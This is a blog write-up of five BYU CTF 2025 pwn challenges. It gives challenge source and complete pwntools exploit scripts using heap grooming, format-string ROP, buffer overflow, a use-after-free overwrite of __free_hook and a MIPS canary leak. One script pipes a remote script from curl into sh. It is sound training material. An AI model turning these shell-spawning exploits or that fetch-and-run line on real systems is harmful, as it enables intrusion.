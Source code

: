 ---
title: '[WRITE UP] - BYU CTF 2025'
description: 'Yet another CTF wrtite up'
image: '../../img/cover_photo_wup_imresizer.png'
date: 2025-05-26
tags: ['2025', 'PWN', 'WriteUp']
authors: ['kdot']
draft: false
pinned: false
---


## Minecraft Youtuber

### Challenge Information

<Challenge
  authors={["overllama"]}
  category="pwn"
  description="Oh boy, I hit a million subscribers on YouTube, what do I do now?"
  flag="byuctf{th3_3xpl01t_n4m3_1s_l1t3r4lly_gr00m1ng}"
>
</Challenge>

### Solution

<details id="src">
<summary>Souce code</summary>
<p>
```c title="minecraft.c"
#include <stdlib.h>
#include <stdio.h>
#include <time.h>
#include <unistd.h>

__attribute__((constructor)) void flush_buf() {
    setbuf(stdin, NULL);
    setbuf(stdout, NULL);
    setbuf(stderr, NULL);
}

typedef struct {
    long uid;
    char username[8];
    long keycard;
} user_t;

typedef struct {
    long mfg_date;
    char first[8];
    char last[8];
} nametag_t;

long UID = 0x1;
char filename[] = "flag.txt";
user_t* curr_user = NULL;
nametag_t* curr_nametag = NULL;

void init() {
    setvbuf(stdout, NULL, _IONBF, 0);
    setvbuf(stdin, NULL, _IONBF, 0);
}


void register_user() {
    printf("WELCOME!! We're so excited to have you here! Tell us your username / tag and we'll get you set up with access to the facilities!\n");
    curr_user = (user_t*)malloc(sizeof(user_t)); // 0x18 bytes
    curr_user->uid = UID++;
    printf("Please go ahead an type your username now: \n");
    read(0, curr_user->username, 8);
}

void log_out() {
    free(curr_user);
    curr_user = NULL;

    if (curr_nametag != NULL) {
        free(curr_nametag);
        curr_nametag = NULL;
    }
}

int print_menu() {
    int choice;
    printf("What would you like to do now?\n");
    printf("1. Register a new user\n");
    printf("2. Learn about the Time Keepers\n");
    printf("3. Collect gear\n");
    printf("4. Elevate to super user\n");
    printf("5. Change characters\n");
    printf("6. Leave\n");
    // 7 is try to free loki but it's not technically an option, you have to be rebellious to get there
    scanf("%d", &choice);
    if (choice < 1 || choice > 7) {
        printf("Invalid choice. You broke the simulation\n");
        return 0;
    }
    return choice;
}

int main(void) {
    init();
    srand(time(NULL)); int gear;
    printf("Hello! My name is Miss Minutes, and I'll be your helper here at the TVA!!\nHow about we get you oriented first!\nThe only rule is that we under no circumstances can free Loki... he's locked up for a reason!\n");

    int input = 1;
    while (input) {
        switch (input) {
            case 1: // register a new user
                register_user();
                break;
            case 2:
                printf("The Time Keepers are the three beings who created the TVA and the Sacred Timeline. They are powerful beings who exist at the end of time and are responsible for maintaining the flow of time.\n");
                break;
            case 3: // collect gear
                if (curr_user == NULL) {
                    printf("You must register a user first!\n");
                    break;
                }
                gear = rand() % 5 + 1;
                if (curr_nametag != NULL) {
                    free(curr_nametag);
                }
                switch (gear) {
                    case 1:
                        printf("You have received a Time Twister! This powerful device allows you to manipulate time and space.\n");
                        break;
                    case 2:
                        printf("You have received a Name Tag! Please input your first and last name:\n");
                        curr_nametag = (nametag_t*)malloc(sizeof(nametag_t));
                        curr_nametag->mfg_date = (long)time(NULL);
                        read(0, curr_nametag->first, 8);
                        read(0, curr_nametag->last, 8);
                        break;
                    case 3:
                        printf("You have received a Time Stick! This device allows you to reset the flow of time in a specific area.\n");
                        break;
                    case 4:
                        printf("You have received a Time Loop! This device allows you to trap someone in a time loop.\n");
                        break;
                    case 5:
                        printf("You have received a Time Bomb! This device allows you to create a temporal explosion.\n");
                        break;
                }
                break;
            case 4:
                if (curr_user == NULL) {
                    printf("You must register a user first!\n");
                    break;
                }
                if (curr_user->uid >= 0x600000) {
                    printf("Well, everything here checks out! Go ahead and take this key card!\n");
                    curr_user->keycard = 0x1337;
                } else {
                    printf("Unfortunately, it doesn't look like you have all the qualifications to get your own key card! Stay close to Miss Minutes and she should be able to get you anywhere you need to go...\n");
                }
                break;
            case 5:
                if (curr_user == NULL) {
                    printf("You must register a user first!\n");
                    break;
                }
                log_out();
                printf("You have been logged out.\n");
                printf(". "); sleep(1);
                printf(". "); sleep(1);
                printf(". \n"); sleep(1);
                register_user();
                break;
            case 6:
                input = 0;
                break;
            case 7:
                if (curr_user == NULL) {
                    printf("You must register a user first!\n");
                    break;
                }

                // Uninitialized memory read
                if (curr_user->keycard == 0x1337) {
                    printf("You have freed Loki! In gratitude, he offers you a flag!\n");
                    FILE* flag = fopen(filename, "r");
                    if (flag == NULL) {
                        printf("Flag file not found. Please contact an admin.\n");
                        return EXIT_FAILURE;
                    } else {
                        char ch;
                        while ((ch = fgetc(flag)) != EOF) {
                            printf("%c", ch);
                        }
                    }
                    fclose(flag);
                    exit(0);
                    break;
                } else {
                    printf("EMERGENCY EMERGENCY UNAUTHORIZED USER HAS TRIED TO FREE LOKI!\n");
                    printf("Time police rush to the room where you stand in shock. They rush you away, take your gear, and kick you back to your own timeline.\n");
                    log_out();
                    input = 0;
                    break;
                }
        }

        if (input != 0) {
            input = print_menu();
        }
    }
    return input;
}
```
</p>
</details>

Look at the code above, it pretty long. But we just need to focus on `case 7` where we can get the flag if we have the keycard. And there is the bug `Uninitialized data use` in the code. We can `fengshui` the heap to get the flag. What I do is just let the program run until it shows us `Tag`, then create a new nametage which `curr_nametag->last` is contain the value `0x1337`

```sh title="GDB"
0x555555559290  0x0000000000000000      0x0000000000000021      ........!.......
0x5555555592a0  0x0000000000000001      0x000000000a6e776b      ........kwn.....
0x5555555592b0  0x0000000000000000      0x0000000000000021      ........!.......
0x5555555592c0  0x000000006833e68f      0x000000000a6e776b      ..3h....kwn.....
0x5555555592d0  0x0000000000001337      0x0000000000020d31      7.......1.......         <-- Top chunk
```

You can see that value `0x1337` is in the top chunk, and when you free it it will be there, because malloc just free the chunk `0x20` (include metadata). Then just `register_user` and get the flag

```py title="exploit.py" collapse={1-36}
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
from pwnie import *
from subprocess import check_output
from time import sleep

context.log_level = 'debug'
context.terminal = ["wt.exe", "-w", "0", "split-pane", "--size", "0.65", "-d", ".", "wsl.exe", "-d", "Ubuntu-22.04", "--", "bash", "-c"]
exe = context.binary = ELF('./minecraft', checksec=False)
libc = exe.libc

gdbscript = '''
init-pwndbg
# init-gef-bata
brva 0x171C
brva 0x1462
brva 0x1739
brva 0x147C
brva 0x18B0
brva 0x171C
c
'''

def start(argv=[]):
    if args.REMOTE:
        return remote(sys.argv[1], sys.argv[2])
    elif args.DOCKER:
        p = remote("localhost", 5000)
        sleep(0.5)
        pid = int(check_output(["pidof", "-s", "/app/run"]))
        gdb.attach(int(pid), gdbscript=gdbscript+f"\n set sysroot /proc/{pid}/root\nfile /proc/{pid}/exe", exe=exe.path)
        pause()
        return p
    else:
        return process([exe.path] + argv, aslr=False)

# ==================== EXPLOIT ====================
p = start()

ru(b"username now: \n")
sl(b"kwn")

line = b""
while b"Tag" not in line:
    ru(b"Leave\n")
    sl(b"3")
    line = p.recvline()

if args.GDB:
    gdb.attach(p, gdbscript=gdbscript)
    pause()

sl(b'kwn')
sl(p64(0x1337))

sl(b'5')
sla(b'now: \n', b'kwn')

ru(b"Leave\n")
sl(b"7")

interactive()
```
---
## GOAT

### Challenge Information

<Challenge
  authors={["Legoclones"]}
  category="pwn"
  description="To prevent excessive brute forcing for those experiencing a skissue, I made sure to add a PoW."
  flag="byuctf{n0w_y0u're_the_g0at!}"
>
</Challenge>

### Solution

There many things here but I think we just need to focus on the challenge `binary`

```c
int __fastcall main(int argc, const char **argv, const char **envp)
{
  _QWORD v4[2]; // [rsp+0h] [rbp-C0h] BYREF
  char s1[64]; // [rsp+10h] [rbp-B0h] BYREF
  char s[104]; // [rsp+50h] [rbp-70h] BYREF
  unsigned __int64 v7; // [rsp+B8h] [rbp-8h]

  v7 = __readfsqword(0x28u);
  v4[0] = 1413566279LL;
  v4[1] = 0LL;
  snprintf(
    s,
    0x5FuLL,
    "Welcome to the %s simulator!\nLet's see if you're the %s...\nWhat's your name? ",
    (const char *)v4,
    (const char *)v4);
  printf(s);
  fgets(s1, 32, stdin);
  snprintf(s, 0x5FuLL, "Are you sure? You said:\n%s\n", s1);
  printf(s);
  fgets(s1, 16, stdin);
  if ( !strncmp(s1, "no", 2uLL) )
  {
    puts("\n?? Why would you lie to me about something so stupid?");
  }
  else
  {
    snprintf(s1, 0x3FuLL, "\nSorry, you're not the %s...", (const char *)v4);
    puts(s1);
  }
  return 0;
}
```

There is a `Format String Bug` here, so we can use that to get the shell. But the program will exit after that, so we need to make a infinite loop to keep the program running. After that leak the address and write our ROP chain to saved RIP using `Format String Bug`.

```py title="exploit.py" collapse={1-72}
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
from pwnie import *
from subprocess import check_output
from time import sleep
import re

context.log_level = 'debug'
context.terminal = ["wt.exe", "-w", "0", "split-pane", "--size", "0.65", "-d", ".", "wsl.exe", "-d", "Ubuntu-22.04", "--", "bash", "-c"]
exe = context.binary = ELF('./goat_patched', checksec=False)
libc = exe.libc

gdbscript = '''
init-pwndbg
# init-gef-bata
# b *0x401278
b *0x4012B0
# b *0x40129F
c
'''

def start(argv=[]):
    if args.REMOTE:
        return remote(sys.argv[1], sys.argv[2])
    elif args.DOCKER:
        p = remote("localhost", 5000)
        sleep(0.5)
        pid = int(check_output(["pidof", "-s", "/app/run"]))
        gdb.attach(int(pid), gdbscript=gdbscript+f"\n set sysroot /proc/{pid}/root\nfile /proc/{pid}/exe", exe=exe.path)
        pause()
        return p
    else:
        return process([exe.path] + argv)

def solve_pow():
    banner = ru(b"solution: ")
    log.debug(f"POW banner:\n{banner!r}")

    m = re.search(b"sh -s (s\\.[^\\s]+)", banner)
    if not m:
        raise ValueError("Fail")
    salt = m.group(1).decode()
    log.info(f"{salt}")

    cmd = f"curl -sSfL https://pwn.red/pow | sh -s {salt}"
    solution = check_output(["bash", "-lc", cmd]).strip()
    log.info(f"{solution!r}")

    sl(solution)

def fmt_w(addr, saved_rip):
    target1 = addr & 0xffff
    payload = f"%{target1-0x18}c%10$hn".encode()
    payload = payload.ljust(0x10, b"a")
    payload += p64(saved_rip)
    sl(payload)
    sl("A")

    target2 = (addr >> 16) & 0xffff
    payload = f"%{target2-0x18}c%10$hn".encode()
    payload = payload.ljust(0x10)
    payload += p64(saved_rip+2)
    sl(payload)
    sl("A")

    target3 = addr >> 32
    payload = f"%{target3-0x18}c%10$hn".encode()
    payload = payload.ljust(0x10, b"a")
    payload += p64(saved_rip+4)
    sl(payload)
    sl("A")

# ==================== EXPLOIT ====================
p = start()

solve_pow()

if args.GDB:
    gdb.attach(p, gdbscript=gdbscript)
    pause()

payload = f"%{0x11f0-0x18}c%11$hn".encode() + b"|%31$p" + b"|%30$p"
payload = payload.ljust(0x18, b"a")
payload += p64(exe.got.puts)
sl(payload)
ru(b"|")
address = rl()[:-1].split(b"|")
print(address)
libc.address = int(address[0], 16) - 0x2A1CA
stack = int(address[1][:14], 16)
saved_rip = stack - 0x98

success('libc base @ %#x', libc.address)
success('stack leak @ %#x', stack)
success('saved rip @ %#x', saved_rip)

rop = ROP(libc)
pop_rdi = rop.find_gadget(["pop rdi", "ret"])[0]
ret = pop_rdi + 1
binsh = next(libc.search(b"/bin/sh\x00"))

fmt_w(pop_rdi, saved_rip)
fmt_w(binsh, saved_rip+8)
fmt_w(ret, saved_rip+16)
fmt_w(libc.sym.system, saved_rip + 24)

payload = f"%{0x133c-0x18}c%10$hn".encode()
payload = payload.ljust(0x10)
payload += p64(exe.got.puts)
sl(payload)
sl("A")

interactive()
```
---
## Game of Yap

### Challenge Information
<Challenge
  authors={["deltabluejay"]}
  category="pwn"
  description="yap yap yap."
  flag="byuctf{heres_your_yap_plus_certification_c13abe01}"
>
</Challenge>

### Solution

The binary have Buffer Overflow bug and we can use that to call the function that give us a binary address. After that use `0x1243: mov rdi, rsi ; ret ;` to control the first argument of printf which can able us to perform some `Format String` attack

```py title="exploit.py" collapse={1-31}
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
from pwnie import *
from subprocess import check_output
from time import sleep

# context.log_level = 'debug'
context.terminal = ["wt.exe", "-w", "0", "split-pane", "--size", "0.65", "-d", ".", "wsl.exe", "-d", "Ubuntu-22.04", "--", "bash", "-c"]
exe = context.binary = ELF('./game-of-yap_patched', checksec=False)
libc = exe.libc

gdbscript = '''
init-pwndbg
# init-gef-bata
brva 0x0123A
c
'''

def start(argv=[]):
    if args.REMOTE:
        return remote(sys.argv[1], sys.argv[2])
    elif args.DOCKER:
        p = remote("localhost", 5000)
        sleep(0.5)
        pid = int(check_output(["pidof", "-s", "/app/run"]))
        gdb.attach(int(pid), gdbscript=gdbscript+f"\n set sysroot /proc/{pid}/root\nfile /proc/{pid}/exe", exe=exe.path)
        pause()
        return p
    else:
        return process([exe.path] + argv)

# ==================== EXPLOIT ====================
p = start()

offset = 0x108

payload = b'A'*(offset) + p8(0x80)

sleep(0.5)
sa(b'chance...\n',payload)
exe.address = hexleak(rl()[:-1]) - 0x1210

success(b'pie base @ %#x', exe.address)

if args.GDB:
    gdb.attach(p, gdbscript=gdbscript)
    pause()


mov_rdi_rsi = exe.address + 0x1243

payload = b'%27$p'.ljust(offset, b'\0') + p64(mov_rdi_rsi) + p64(exe.plt.printf) + p64(exe.sym.play)
sleep(0.5)
sa(b'try...\n', payload)

libc.address = hexleak(rb(16)) - 0x2a28b
success('libc base @ %#x', libc.address)

rop = ROP(libc)
pop_rdi = rop.find_gadget(["pop rdi", "ret"])[0]
ret = pop_rdi + 1

payload = b'A'*offset + p64(pop_rdi) + p64(next(libc.search(b'/bin/sh\0')))+ p64(libc.sym.system)

sleep(0.5)
s(payload)

interactive()
```
---
## TCL

### Challenge Information

<Challenge
  authors={["Legoclones"]}
  category="pwn"
  description="I created my own Tiny Config Language and even a little parser for it - you should try it out!"
  flag="byuctf{ok4y_y34h_th4t_d3fin1t3ly_suck3d}"
>
</Challenge>

### Solution

This challenge was 1 solved during CTF. And I couldn't solve it during that time, but luckily, my friend was the one who did first blood on this challenge, and after the CTF he told me there was a way without using Race Conditions. Shout out to @Lieu

<details id="src">
<summary>Souce code</summary>
<p>
```c title="tcl.c"
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <stdbool.h>
#include <ctype.h>
#include <pthread.h>
#include <unistd.h>

enum {
    TYPE_FLOAT = 0,
    TYPE_INT,
    TYPE_STRING,
    TYPE_BOOL,
};

struct str_object {
    char *value;
    unsigned int type;
    unsigned int refcount;
};

struct int_object {
    unsigned long value;
    unsigned int type;
    unsigned int refcount;
};

struct float_object {
    double value;
    unsigned int type;
    unsigned int refcount;
};

struct bool_object {
    unsigned long value;
    unsigned int type;
    unsigned int refcount;
};

void* objects[100];

__attribute__((constructor)) void flush_buf() {
    setbuf(stdin, NULL);
    setbuf(stdout, NULL);
    setbuf(stderr, NULL);
}

void win() {
    system("/bin/sh");
    exit(0);
}

int create_string_obj(char *value) {
    struct str_object* obj = (struct str_object*)objects[0];
    unsigned int i = 0;

    // if the object already exists, just increase the refcount
    while (obj != NULL) {
        if ((obj->type == TYPE_STRING) && (strcmp(obj->value, value) == 0)) {
            printf("Added refcount to %s\n", obj->value);
            obj->refcount++;
            return 0;
        }
        if (i >= 99) {
            puts("object array is full");
            return -1;
        }
        i++;
        obj = (struct str_object*)objects[i];
    }

    // otherwise, create a new object
    obj = (struct str_object*)malloc(sizeof(struct str_object));
    if (obj == NULL) {
        puts("malloc failed");
        exit(1);
    }
    obj->value = strdup(value);
    if (obj->value == NULL) {
        puts("strdup failed");
        exit(1);
    }
    obj->type = TYPE_STRING;
    obj->refcount = 1;
    objects[i] = obj;
    return 0;
}

int create_int_obj(unsigned long value) {
    struct int_object* obj = (struct int_object*)objects[0];
    unsigned int i = 0;

    // if the object already exists, just increase the refcount
    while (obj != NULL) {
        if ((obj->type == TYPE_INT) && (obj->value == value)) {
            printf("Added refcount to %lu\n", obj->value);
            obj->refcount++;
            return 0;
        }
        if (i >= 99) {
            puts("object array is full");
            return -1;
        }
        i++;
        obj = (struct int_object*)objects[i];
    }

    // otherwise, create a new object
    obj = (struct int_object*)malloc(sizeof(struct int_object));
    if (obj == NULL) {
        puts("malloc failed");
        exit(1);
    }
    obj->value = value;
    obj->type = TYPE_INT;
    obj->refcount = 1;
    objects[i] = obj;
    return 0;
}

int create_float_obj(double value) {
    struct float_object* obj = (struct float_object*)objects[0];
    unsigned int i = 0;

    // if the object already exists, just increase the refcount
    while (obj != NULL) {
        if ((obj->type == TYPE_FLOAT) && (obj->value == value)) {
            printf("Added refcount to %lf\n", obj->value);
            obj->refcount++;
            return 0;
        }
        if (i >= 99) {
            puts("object array is full");
            return -1;
        }
        i++;
        obj = (struct float_object*)objects[i];
    }

    // otherwise, create a new object
    obj = (struct float_object*)malloc(sizeof(struct float_object));
    if (obj == NULL) {
        puts("malloc failed");
        exit(1);
    }
    obj->value = value;
    obj->type = TYPE_FLOAT;
    obj->refcount = 1;
    objects[i] = obj;
    return 0;
}

int create_bool_obj(unsigned long value) {
    struct bool_object* obj = (struct bool_object*)objects[0];
    unsigned int i = 0;

    // if the object already exists, just increase the refcount
    while (obj != NULL) {
        if ((obj->type == TYPE_BOOL) && (obj->value == value)) {
            printf("Added refcount to %lu\n", obj->value);
            obj->refcount++;
            return 0;
        }
        if (i >= 99) {
            puts("object array is full");
            return -1;
        }
        i++;
        obj = (struct bool_object*)objects[i];
    }

    // otherwise, create a new object
    obj = (struct bool_object*)malloc(sizeof(struct bool_object));
    if (obj == NULL) {
        puts("malloc failed");
        exit(1);
    }
    obj->value = value;
    obj->type = TYPE_BOOL;
    obj->refcount = 1;
    objects[i] = obj;
    return 0;
}

void clear_objects() {
    for (unsigned int i = 0; i < 100; i++) {
        if (objects[i] != NULL) {
            // set refcount to 0 for the garbage collector to free
            struct str_object* obj = (struct str_object*)objects[i];
            obj->refcount = 0;
        }
    }
}

void parse_tcl() {
    char buf[0x100];
    bool valid = true;
    bool started = false;

    while (1) {
        // clear the buffer
        memset(buf, 0, sizeof(buf));

        // we use fgets because it breaks on \n, which means the config line is done
        fgets(buf, sizeof(buf), stdin);

        // remove the newline character
        size_t len = strlen(buf);
        if (len > 0 && buf[len - 1] == '\n') {
            buf[len - 1] = '\0';
        }
        // check for empty line
        if (strlen(buf) == 0) {
            continue;
        }

        if (started == false) {
            // check for the start of the config
            if (strcmp(buf, "#START") != 0) {
                puts("You need to start with #START");
                continue;
            }
            started = true;
            continue;
        }

        if (strcmp(buf, "#END") == 0) {
            break;
        }

        // check for ' = '
        char * delim = strstr(buf, " = ");
        if (delim == NULL) {
            puts("Invalid line, no ' = ' found");
            valid = false;
            continue;
        }
        *delim = '\0'; // replace ' = ' with '\0' to split the string
        delim += 3; // move past the ' = '
        // at this point, buf contains the key name and delim points to the value

        // ensure first character is not a digit
        if (isdigit(buf[0])) {
            puts("Key name cannot start with a digit");
            valid = false;
            continue;
        }

        // check character set in keyname
        for (char *p = buf; *p != '\0'; p++) {
            if (!isalnum(*p) && *p != '_') {
                puts("Key name can only contain alphanumeric characters and underscores");
                valid = false;
                continue;
            }
        }

        // create an object to store key name
        if (create_string_obj(buf) != 0) {
            puts("create_string_obj failed");
            valid = false;
            continue;
        }

        // CHECK THE VALUE NOW

        // inspecting the first character of the value will tell us what type it is
        if (isdigit(delim[0])) {
            // it's an int or float
            char *endptr;
            unsigned long value = strtoul(delim, &endptr, 10);
            if (*endptr == '.') {
                // it's a float
                double fvalue = strtod(delim, NULL);
                if (create_float_obj(fvalue) != 0) {
                    puts("create_float_obj failed");
                    valid = false;
                    continue;
                }
            } else {
                // it's an int
                if (create_int_obj(value) != 0) {
                    puts("create_int_obj failed");
                    valid = false;
                    continue;
                }
            }
        }

        else if (delim[0] == 't' || delim[0] == 'f') {
            if (strcmp(delim, "true") != 0 && strcmp(delim, "false") != 0) {
                puts("Invalid boolean value");
                valid = false;
                continue;
            }

            // it's a bool
            unsigned long value = (delim[0] == 't') ? 1 : 0;
            if (create_bool_obj(value) != 0) {
                puts("create_bool_obj failed");
                valid = false;
                continue;
            }
        }

        else if (delim[0] == '"') {
            // it's a string
            delim++; // move past the opening quote
            char *end = strchr(delim, '"');
            if (end == NULL) {
                puts("Invalid string value, no closing quote found");
                valid = false;
                continue;
            }
            *end = '\0'; // replace closing quote with null terminator
            if (create_string_obj(delim) != 0) {
                puts("create_string_obj failed");
                valid = false;
                continue;
            }
        }

        else {
            // invalid value type
            puts("Invalid value type");
            valid = false;
            continue;
        }
    }

    // check if the config is valid
    if (valid) {
        puts("Config is valid");
    } else {
        puts("Config is invalid");
    }

    // set the refcount of all objects to 0
    clear_objects();
}

void gc() {
    unsigned int indexes[100];
    unsigned int count = 0;

    while (1) {
        memset(indexes, 0, sizeof(indexes));
        count = 0;
        sleep(5);

        // store the indexes of all objects with refcount 0
        for (unsigned int i = 0; i < 100; i++) {
            if (objects[i] != NULL) {
                struct str_object* obj = (struct str_object*)objects[i];
                if (obj->refcount == 0) {
                    indexes[count++] = i;
                }
            }
        }

        // free them
        for (unsigned int i = 0; i < count; i++) {
            struct str_object* obj = (struct str_object*)objects[indexes[i]];
            if (obj != NULL) {
                if (obj->type == TYPE_STRING)
                    free(obj->value);
                free(obj);         // Use-After-Free
                usleep(5 * 1000); // sleep for 5 milliseconds - we don't want to hog the CPU!
            }
        }

        // set the object pointer to NULL
        for (unsigned int i = 0; i < count; i++) {
            struct str_object* obj = (struct str_object*)objects[indexes[i]];
            // double check refcount is 0 before setting to NULL
            if (obj != NULL && obj->refcount == 0) {
                objects[indexes[i]] = NULL;
            }
        }
    }
}

int main() {
    alarm(60); // set a timeout for the program
    printf("%p\n", &alarm);

    // spawn garbage collector
    pthread_t tid;
    pthread_create(&tid, NULL, (void*)gc, NULL);

    while (1) {
        puts("Enter your TCL file contents below:");
        puts("=========================================");
        parse_tcl();
    }

    return 0;
}
```
</p>
</details>

The code is quite long but we will pay attention to some key points as follows:
- There is `Use-After-Free` in the `gc` function, this function will run every `5s` and it will free any objects that have `refcount == 0`
- In the `create_string_obj` function, `strdup` will let us customize the size of a malloc chunk through the length of the string

With the idea of ​​triggering `malloc_consolidate()` to move the chunks in fastbin to unsortedbin, from a singly linked list to a doubly linked list, we will be able to cause Double Free. Below is a demo program for that

```c title="demo.c"
// gcc -o test test.c -g -no-pie
#include <stdio.h>
#include <stdlib.h>

void main()
{
    void *a[10], *b[10];

    for (int i = 0; i < 2; i++)
        a[i] = malloc(0x18);

    for (int i = 2; i < 10; i++)
    {
        a[i] = malloc(0x18);
        b[i] = malloc(0x88);
    }

    for (int i = 0; i < 2; i++)
        free(a[i]);

    for (int i = 2; i < 10; i++)
    {
        free(b[i]);
        free(a[i]);
    }
}
```
And once we free all the chunk we have, check `bins` again and we can see some speical things

```sh title="GDB"
pwndbg> bins
tcachebins
0x20 [  7]: 0x4055a0 —▸ 0x4054f0 —▸ 0x405440 —▸ 0x405390 —▸ 0x4052e0 —▸ 0x4052c0 —▸ 0x4052a0 ◂— 0
0x90 [  7]: 0x405720 —▸ 0x405670 —▸ 0x4055c0 —▸ 0x405510 —▸ 0x405460 —▸ 0x4053b0 —▸ 0x405300 ◂— 0
fastbins
0x20: 0x4057a0 ◂— 0
unsortedbin
all: 0x405640 —▸ 0x4056f0 —▸ 0x7ffff7f9cce0 (main_arena+96) ◂— 0x405640 /* '@V@' */
smallbins
empty
largebins
empty
```
This is done by [this code](https://elixir.bootlin.com/glibc/glibc-2.35/source/malloc/malloc.c#L4648-L4674). When the `0x80` chunk consolidates with the top chunk, it continues to check that chunk for the new size with `FASTBIN_CONSOLIDATION_THRESHOLD` and to make sure that this chunk size is larger, `malloc_consolidate()` will be called. With that in mind, here is my exploit.

```py title="exploit.py" collapse={1-41, 65-112}
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
from pwnie import *
from subprocess import check_output
from time import sleep

context.log_level = 'debug'
context.terminal = ["wt.exe", "-w", "0", "split-pane", "--size", "0.65", "-d", ".", "wsl.exe", "-d", "Ubuntu-22.04", "--", "bash", "-c"]
exe = context.binary = ELF('./tcl_patched', checksec=False)
libc = exe.libc

gdbscript = '''
init-pwndbg
# init-gef-bata
set resolve-heap-via-heuristic force
set follow-fork-mode parent
b *0x40174F
b *0x4018AC
b *0x400EFA
b *0x400DB3
b *0x400D86
c
'''

def start(argv=[]):
    if args.REMOTE:
        return remote(sys.argv[1], sys.argv[2])
    elif args.DOCKER:
        p = remote("0", 5004)
        sleep(0.5)
        pid = int(check_output(["pidof", "-s", "/app/run"]))
        gdb.attach(int(pid), gdbscript=gdbscript+f"\n set sysroot /proc/{pid}/root\nfile /proc/{pid}/exe", exe=exe.path)
        pause()
        return p
    else:
        return process([exe.path] + argv, aslr=False)

def debug():
    gdb.attach(p, gdbscript=gdbscript)
    pause()

# ==================== EXPLOIT ====================
p = start()

libc.address = hexleak(rl()[:-1]) - libc.sym.alarm
success('libc base @ %#x', libc.address)

ru(b'=========================================\n')

sl(b'#START')
for i in range(8):
    chunk = str(i).encode() * 0x87
    sl(b'A = "' + chunk + b'"')
sl(b'#END')

sleep(6)

sl(b'#START')
payload = b"B" * 0x27 + b' = "' + b'8' + b'"'
sl(payload)
sl(b"#END")

sleep(6)

'''
0x4f297 execve("/bin/sh", rsp+0x40, environ)
+----------+-----------------------------------------+
| Result   | Constraint                              |
+==========+=========================================+
| SAT      | address rsp+0x50 is writable            |
+----------+-----------------------------------------+
| SAT      | rsp & 0xf == 0                          |
+----------+-----------------------------------------+
| UNKNOWN  | {"sh", "-c", r12, NULL} is a valid argv |
+----------+-----------------------------------------+

0x4f29e execve("/bin/sh", rsp+0x40, environ)
+----------+-------------------------------------------------------+
| Result   | Constraint                                            |
+==========+=======================================================+
| SAT      | address rsp+0x50 is writable                          |
+----------+-------------------------------------------------------+
| SAT      | rsp & 0xf == 0                                        |
+----------+-------------------------------------------------------+
| SAT      | rcx == NULL || {rcx, "-c", r12, NULL} is a valid argv |
+----------+-------------------------------------------------------+

0x4f2a5 execve("/bin/sh", rsp+0x40, environ)
+----------+------------------------------------------------------+
| Result   | Constraint                                           |
+==========+======================================================+
| SAT      | address rsp+0x50 is writable                         |
+----------+------------------------------------------------------+
| SAT      | rsp & 0xf == 0                                       |
+----------+------------------------------------------------------+
| SAT      | rcx == NULL || {rcx, rax, r12, NULL} is a valid argv |
+----------+------------------------------------------------------+

0x4f302 execve("/bin/sh", rsp+0x40, environ)
+----------+---------------------------------------------------------------------------------------------+
| Result   | Constraint                                                                                  |
+==========+=============================================================================================+
| UNKNOWN  | [rsp+0x40] == NULL || {[rsp+0x40], [rsp+0x48], [rsp+0x50], [rsp+0x58], ...} is a valid argv |
+----------+---------------------------------------------------------------------------------------------+

0x10a2fc execve("/bin/sh", rsp+0x70, environ)
+----------+---------------------------------------------------------------------------------------------+
| Result   | Constraint                                                                                  |
+==========+=============================================================================================+
| SAT      | [rsp+0x70] == NULL || {[rsp+0x70], [rsp+0x78], [rsp+0x80], [rsp+0x88], ...} is a valid argv |
+----------+---------------------------------------------------------------------------------------------+
'''

sl(b'#START')
payload = b"C" * 0x27 + b' = "' + p64(libc.sym.__free_hook-8)[:6] + b'"'
sl(payload)

payload = b"C" * 0x27 + b' = "' + b"Y" * 0x27 + b'"'
sl(payload)

payload = b"C" * 0x27 + b' = "' + b"A" * 8 + p64(libc.address + 0x10a2fc)[:6] + b'"'
sl(payload)
sl(b"#END")
sleep(6)

interactive()
```

## MIPS

### Challenge Information
<Challenge
  authors={["Legoclones"]}
  category="pwn"
  description="Pwn mains need to learn more about other architectures."
  flag="byuctf{h0p3_y0u_d1dnt_h4v3_un1c0rn_2.1.3_cuz_M1PS_s3gf4ultz_th3r3}"
></Challenge>

### Solution

This challenge is not too hard, but this is the first time I have to deal with MIPS architecture, so I have to learn a bit about it. First we need to setup the environment for it. Following these step:

- Build the docker image to get `libc` and `ld`
- Create a `rootfs` folder to store the `libc` and `ld` files
- Execute the binary using: `qemu-mipsel -L rootfs ./mips`

If you want to debug with `gdb` you can use `qemu-mipsel -L rootfs -g 1234 ./mips` and then connect to it with `gdb-multiarch` using `target remote localhost:1234`.
And the idea to pwn this challenge is leak the canary, and ret2win. In mips architecture, the canary value address is stored in `__stack_chk_fail` function, that's the idea to leak the canary value. After that, we can use `ret2win` to call the `win` function.

```py title="exploit.py" collapse={1-19}
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
from pwnie import *
from subprocess import check_output
from time import sleep

# context.log_level = 'debug'
context.terminal = ["wt.exe", "-w", "0", "split-pane", "--size", "0.65", "-d", ".", "wsl.exe", "-d", "Ubuntu-22.04", "--", "bash", "-c"]
exe = context.binary = ELF('./mips_patched', checksec=False)
libc = exe.libc

def start(argv=[]):
    if args.GDB:
        return process(["qemu-mipsel","-g","5000", "-L", "./rootfs", exe.path])
    elif args.REMOTE:
        return remote(sys.argv[1], sys.argv[2])
    else:
        return process(["qemu-mipsel", "-L", "./rootfs", exe.path])

# ==================== EXPLOIT ====================
p = start()

win               = 0x0400964
__stack_chk_guard = 0x0420060

# Leak canary address
sla(b'> ', b'1')
sla(b'read from: ', str(hex(__stack_chk_guard)).encode())
canary_address = int(rl()[:-1], 16)
success('canary address @ %#x', canary_address)

# Leak canary value
sla(b'> ', b'1')
sla(b'read from: ', str(hex(canary_address)).encode())
canary = int(rl()[:-1], 16)
success('canary @ %#x', canary)

sla(b'> ', b'2')
sla(b'name:\n', b'A'*0x10 + p32(canary) + p32(0) + p32(win))

interactive()
```
